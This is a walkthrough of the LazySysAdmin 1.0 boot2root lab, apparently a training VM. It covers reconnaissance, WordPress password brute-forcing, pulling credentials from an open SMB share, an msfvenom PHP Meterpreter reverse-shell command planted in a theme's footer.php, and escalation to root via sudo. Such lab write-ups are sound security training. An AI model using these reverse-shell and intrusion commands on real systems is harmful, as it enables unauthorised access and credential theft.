 <h1>LazySysAdmin 1.0 Walkthrough</h1>

Author Description: "Boot2root created out of frustration from failing my first OSCP exam attempt."

Difficulty: Beginner - Intermediate

Challenge: Accepted

I imported to VMware Workstation, using a host only subnet for this and my Kali VM.

Run a quick `netdiscover` to gather the target's IP and an `ifconfig` to confirm my attacker IP.

Now I can really start things off with an Nmap scan.

`nmap -Pn -sT -sV -O 192.168.17.139 -p1-65000`

![Image of Nmap](https://blu0.github.io/LSAWalkthrough/LSAnmap.png)

So there's a few different places to start, but I'll take a look at the website on Port 80 first.

![Image of Site](https://blu0.github.io/LSAWalkthrough/LSAsite.png)

Nothing really jumps out after looking around for a bit, so time for some more web enumeration.

I'll go with trusty old Nikto here and move to Dirbuster, etc if I needed.

`nikto -h 192.168.17.139`

![Image of Nikto](https://blu0.github.io/LSAWalkthrough/LSAnikto.png)

So looking through the results, there are quite a few things to check here. First off, the robots.txt shows the same directories as the Nikto scan, so that's a wash. The `/old/` and `/test/` directories show nothing at all, so moving on. I poked a little bit at the `/myphpadmin/` page but it requires a password. A few guesses at username/password combos proved useless... meh, moving on for now.

There is a WordPress site, but nothing seems to load. Who cares? I’m going to add `/wp-admin/` anyway and see if there is a login page.

Voila!

![Image of Wp-admin](https://blu0.github.io/LSAWalkthrough/LSAwp.png)

WordPress looks like the most viable path at the moment, and it would be a quick reverse shell if I can work my way in.

It's time for some WPScan to see what usernames are there.

![Image of WPscan](https://blu0.github.io/LSAWalkthrough/LSAwpscane.png)

![Image of WPscan2](https://blu0.github.io/LSAWalkthrough/LSAwpscanadmin.png)

So we have Admin and nothing else. Ok then.

Trying some WPScan Brute Force, I scraped the site with Cewl:

`cewl -m 5 http://192.168.17.139/wordpress -w lazycewl.txt`

Then ran it through some mutations with John The Ripper:

`john --wordlist=/root/lazycewl --rules --stdout > lazymutate.txt`

`wpscan –u http://192.168.17.139/wordpress –wordlist lazymutate.txt –username admin`

I tried rockyou for a few minutes before cancelling it, brute force is probably not the answer at this point, but we can return to it if no other information is found. Maybe the password is somewhere else.

Time to check the SMB port and see if there is any relevant data to be found. I probably could have done this a little earlier and saved some time, but here goes.

`enum4linux -a 192.168.17.139`

![Image of Enum4Linux](https://blu0.github.io/LSAWalkthrough/LSAenum4linux.png)

There are a few options, but `share$` looks interesting since it is not a default.

I connect to share as guest.

![Image of SMBClient](https://blu0.github.io/LSAWalkthrough/LSAsmbclient.png)

No problem listing directories or files.

![Image of SMBClient2](https://blu0.github.io/LSAWalkthrough/LSAsmbclient2.png)


The `get` command works, so grabbed the wp-config.php file and viewed it on my system.

![Image of wp-config](https://blu0.github.io/LSAWalkthrough/LSAwp-config.png)

Trying the password found in the WordPress Admin panel and what do you know, the password works.

Now it's time for time get a quick reverse shell on the machine. To do this I will generate a Meterpreter shell using the following command:

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.17.141 LPORT=4444 -f raw > shell.php`

Note: Meterpreter is not really needed, I could have tried any number of php reverse shells, but I wanted the meterpreter one for the `shell` command so that if I do something to botch my shell I can simply end the session instead of havnig to reconnect entirely.

Once the shellcode is generated, I do a little touch up on the format (remove leading `//` and add `?>` to the end), then add to footer.php of theme.

![Image of footer](https://blu0.github.io/LSAWalkthrough/LSAfooter.png)

Get meterpreter ready by confirming all options are set appropriately (Payload/LHOST/LPORT)

![Image of meterpreter](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter.png)

Now type run and reload the wordpress site.

![Image of meterpreter2](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter2.png)

The reverse shell is successful, getting some system info.

I tried the WordPress password for root, but it isn't working.

Moved to /tmp and did a quick wget from my attack machine (ensure apache is running on Kali) to download the linuxprivchecker.py script. Ran it, but found nothing obvious. I'll poke around some more with what I already have and come back to it if I get stuck.

Maybe there is another user in the database or another database.

![Image of mysql](https://blu0.github.io/LSAWalkthrough/LSAmysql.png)

![Image of mysql2](https://blu0.github.io/LSAWalkthrough/LSAmysql2.png)

![Image of mysql3](https://blu0.github.io/LSAWalkthrough/LSAmysql3.png)

Nope, no other users.

What other users are on the system?

![Image of passwd](https://blu0.github.io/LSAWalkthrough/LSApasswd.png)

User `togie` looks interesting. I tried swiching to togie with the WordPress password, but no go.

Did I overlook something previously?

Yes, actually. It occurs to me tht I haven't explored my SMB share nearly enough. so I go back to the SMB share and grab deets.txt

![Image of deets](https://blu0.github.io/LSAWalkthrough/LSAdeets.png)

Now that's promising.

Back to my low priv shell, now I'm able to switch to togie with the newly discovered password, and I see the user is in the sudo group as well.

![Image of su](https://blu0.github.io/LSAWalkthrough/LSAsu.png)

Let's see what I can do with sudo access.

![Image of shadow](https://blu0.github.io/LSAWalkthrough/LSAshadow.png)

Looks like a restricted shell, but this doesn't faze me.

![Image of root](https://blu0.github.io/LSAWalkthrough/LSAroot.png)

Proof.txt is mine, plus I have the root password hash if I want to crack it later.

I could experiment with breaking out of the restricted shell (probably vim would work here), but I didn't bother at this point.


Overall, I think this was a good challenge, and a good reminder to enumerate thoroughly before moving too fast from one phase to the next.

